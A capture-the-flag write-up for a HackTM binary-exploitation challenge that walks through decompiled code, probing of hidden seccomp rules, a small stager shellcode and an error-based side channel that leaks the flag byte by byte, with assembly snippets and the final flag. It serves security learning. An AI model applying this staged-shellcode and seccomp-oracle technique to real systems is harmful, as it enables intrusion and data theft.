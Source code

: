 # **Obey The Rules**

#### tag : pwn(445p)

-----------------------------------------------

#### Description

>The government has released a new set of rules. Do you choose to be among those who follow them blindly or among those who read them first?

>Flag Path: /home/pwn/flag.txt

>Author: FeDEX

>Remote: nc 138.68.67.161 20001

-----------------------------------------------

#### Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int16 v4; // [rsp+10h] [rbp-80h]
  void *v5; // [rsp+18h] [rbp-78h]
  char s; // [rsp+20h] [rbp-70h]
  unsigned __int64 v7; // [rsp+88h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init_proc(*(_QWORD *)&argc, argv, envp);
  memset(&s, 0, 0x64uLL);
  open_read_file("header.txt", 100LL, &s);
  puts(&s);
  open_read_file("description.txt", 800LL, &description);
  printf("\n    %s\n  ", &description);
  puts(" >> Do you Obey? (yes / no)");
  read(0, &answer, 0xBuLL);
  v4 = (signed int)open_read_file("RULES.txt", 150LL, &rules) >> 3;
  v5 = &rules;
  if ( prctl(38, 1LL, 0LL, 0LL, 0LL) < 0 )
  {
    perror("prctl(PR_SET_NO_NEW_PRIVS)");
    exit(2);
  }
  if ( prctl(22, 2LL, &v4) < 0 )
  {
    perror("prctl(PR_SET_SECCOMP)");
    exit(2);
  }
  if ( !strcmp(&answer, "Y") )
    set_context(&answer, "Y");
  else
    system("/bin/sh");
  return 0;
}
```
Challenge make seccomp rule from `RULES.txt` in server, so that we can't check seccomp rule by `seccomp-tools`.

```c
  v4 = (signed int)open_read_file("RULES.txt", 150LL, &rules) >> 3;
  v5 = &rules;
  if ( prctl(38, 1LL, 0LL, 0LL, 0LL) < 0 )
  {
    perror("prctl(PR_SET_NO_NEW_PRIVS)");
    exit(2);
  }
  if ( prctl(22, 2LL, &v4) < 0 )
  {
    perror("prctl(PR_SET_SECCOMP)");
    exit(2);
  }
```

After seccomp rule released, we can execute 0xb byte shellcode in `set_context()` if 2 byte of shellcode is 'Y\x00'. Otherwise we can call system("/bin/sh"), but this is banned by seccomp rule. It return bad system call. So we use `set_context()`.

```c
  ...
  read(0, &answer, 0xBuLL);
  ...
  seccomp routine here
  ...
  if ( !strcmp(&answer, "Y") )
    set_context();
  else
    system("/bin/sh");
  ...

__int64 set_context()
{
  *(&answer + strlen(&answer)) = 89;
  strcpy(region, &answer);
  return ((__int64 (__fastcall *)(signed __int64, char *))region)(1337LL, &answer);
}
```

First of all, I checked seccomp rule in server. I made shellcode that call each syscall and got server's response. `ALLOW` syscall return `Segfault` but `KILL` syscall return `Bad system call`. Here is my check code [check.py](./check.py).

```
mov al, n (n=0~0xff)
syscall
```

This is result of `check.py`. There are only 3 syscall available. We have to solve this challenge using `read`, `open`, `exit`.

```
0 ok
1 bad
2 ok
...
60 ok
...
```

There is no way to print data from server, So we have to use `error-based shellcode` which that use reaction of server. In the case, we can use server's seccomp reaction. If we call bad syscall, server return `Bad system call`, but using `exit` which is allowed, server return normally.

So, we open flag.txt and compare byte one by one. And if it's correct ascii byte, jmp to exit syscall or not jmp to bad syscall. So that we can know flag's byte.

Here is pseudocode. It's form that we have to make in shellcode.

```
fd = open("/home/pwn/flag.txt");
read(fd, buf, 0x100);
for(int i=0; i<0x100; i++) {
  for(int j=0; j<0xff; j++) {
    if(buf[i] == j) {
      exit(0);
    }
    else {
      syscall(); // whatever except for read, open, exit
    }
  }
}

```

Before that, we have to read more byte. 0xb byte is not enough to work like upper pseudocode. So, we use this 0xb shellcode to read more byte.

Fortunately, at the point of execution of shellcode, value of rsp contain &shellcode which is mapped as `region` and rdx is big trash value. So just set rdi to 0(stdin) and pop `region`'s address to rsi, then call read.

```
pop rcx ; Y(prefix)
pop rcx ; Y(prefix)
xor di, di
pop rsi
xor eax, eax
syscall
```

Great, We can call read(0, region[&shellcode], n). Putting second shellcode with 0x10 byte dummy, we can run new shellcode continuosly. 

After reading new shellcode, mabye find something weird(bad syscall retunred from read(3,buf,n)) when read flag after open. Yes, server's seccomp rule have read's A0 comparing.

So we can guess server's seccomp rule like:

```
scmp_filter_ctx ctx;
ctx = seccomp_init(SCMP_ACT_KILL);

seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 1, SCMP_CMP_NE(3));
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);

seccomp_load(ctx);
seccomp_release(ctx);
```

Well, just open flag.txt one more time, then 4 is allcated as fd. Here is psuedo shellcode that comparing flag one by one.

```
open('/home/pwn/flag.txt')
open('/home/pwn/flag.txt')
read(4, 'rsp', 0x100)
mov rax, [rsp+i]          ; i is index of flag
cmp al, j                 ; j is byte of flag
je good
xor eax, eax
mov al, 59 
syscall                   ; call execve(bad syscall)
good:
xor eax, eax
mov al, 60
syscall                   ; call exit
```

Here is my last exploit code, [solve.py](./solve.py).

**HackTM{kn0w_th3_rul3s_we11_s0_y0u_c4n_br34k_th3m_EFFECTIVELEY}**